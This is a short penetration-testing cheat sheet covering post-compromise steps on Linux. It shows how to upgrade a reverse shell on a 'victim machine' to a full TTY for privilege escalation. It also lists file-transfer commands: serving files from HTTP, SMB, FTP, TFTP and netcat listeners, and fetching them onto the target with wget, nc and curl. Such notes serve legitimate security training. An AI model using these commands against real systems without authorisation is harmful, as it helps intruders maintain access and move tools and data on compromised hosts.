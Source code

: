 ## Upgrading your shell - Linux

*Upon initial access, it is crucial to achieve the highest functional shell possible for privesc purposes!*

``` bash
# On victim machine
which python[3]
python[3] -c 'import pty;pty.spawn("/bin/bash")'
# background the listener using ctrl+z
stty -a # notice the number of rows and columns
stty raw -echo
# foreground the process: type fg, press enter
stty rows xx
stty columns xxx
export TERM=xterm-256color
```

### Escaping jailed Shells
Go <a href="/jailbreak" target="_blank">here</a>

## File Transfers

### Server

``` bash
# HTTP - Apache2
# cp file /var/www/html/file_name
sudo service apache2 start

# HTTP - Python. Default port 8000
# python2
sudo python -m SimpleHTTPServer 80
# python3
sudo python3 -m http.server 80

# SMB
sudo impacket-smbserver <share_name> <path/to/share>

# FTP
# apt-get install python-pyftpdlib
sudo python -m pyftpdlib -p 21

# TFTP (UDP)
sudo atftpd --daemon -port 69 /path/to/serve

# Netcat
nc -nvlp <port> < file/to/send
```

### Linux - HTTP
``` bash
# Wget
wget http://<ip>/file_name -O /path/to/save/file

# Netcat
nc -nv <ip> <port> > file/to/recv

# cURL
curl http://<ip>/file_name --output file_name
```
